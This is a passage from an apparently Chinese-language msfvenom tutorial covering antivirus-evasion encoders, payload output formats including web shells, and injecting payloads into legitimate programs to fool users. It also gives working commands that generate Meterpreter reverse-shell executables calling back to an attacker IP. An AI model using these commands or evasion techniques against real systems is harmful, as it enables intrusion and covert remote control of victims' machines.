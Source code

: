 1.  **绕过签名检测**：改变 Payload 的二进制特征，使其不匹配杀毒软件的数据库签名。
2.  **坏字符处理**：去除或替换 Payload 中可能导致问题（如截断）的字符，尤其是 NUL(`\x00`)、回车符(`\r`)、换行符(`\n`) 等，这在 Shellcode 注入时非常重要。

*   **常用编码器**：
    *   **`x86/shikata_ga_nai`**：经典的、效果较好的多态编码器，可以多次迭代编码，但已经相对容易被检测。
    *   **`x86/alpha_mixed`**：生成仅包含字母数字字符的 Shellcode。
    *   **`x86/call4_dword_xor`**：使用 XOR 编码。

*   **重要提示**：编码器只是一种混淆技术，**不提供加密**。被编码的 Payload 仍然可以被解码还原。编码器只能帮助绕过部分静态签名检测，但无法对抗行为分析和其他高级检测技术。

### 3.3 Format (输出格式)

`msfvenom` 支持将 Payload 输出为多种格式，以适应不同的攻击场景：

*   **`exe`**：Windows 可执行文件。
*   **`elf`**：Linux 或 macOS 可执行文件。
*   **`raw`**：原始 Shellcode (二进制数据)。
*   **`asp`**, **`aspx`**, **`jsp`**, **`php`**：Web Shell 程序。
*   **`dll`**：Windows 动态链接库。
*   **`msi`**：Windows 安装程序包。
*   **`c`**：C 语言格式的 Shellcode 数组，方便嵌入 C/C++ 程序。
*   **`python`**, **`perl`**, **`ruby`**：脚本语言格式的 Shellcode。

### 3.4 Template (模板文件)

使用 `-x` 参数可以将生成的 Payload 注入到一个合法的程序 (模板) 中。

*   **优点**：生成的恶意文件看起来像一个正常的程序，可以降低用户的警惕性，并且文件头信息、数字签名（如果模板有）等都可以被保留，进一步规避检测。
*   **`--keep` (-k) 参数**：如果配合 `-k` 参数，注入 Payload 后的程序在执行恶意功能的同时，还会保留模板程序的原有功能。

## 四、Msfvenom 常见用法示例

### 4.1 生成 Windows Meterpreter 反向 TCP Shell (EXE)

这是最常见的用法，生成一个 Windows 可执行文件，当执行时会尝试连接攻击机。

**攻击机 IP (LHOST)**：`192.168.1.100`
**监听端口 (LPORT)**：`4444`

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o /root/Desktop/payload.exe
```

### 4.2 生成 Linux x64 Meterpreter 反向 TCP Shell (ELF)

生成一个 Linux 64位可执行文件。

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4445 -f elf -o /root/Desktop/payload.elf
```

### 4.3 生成 PHP Reverse Shell
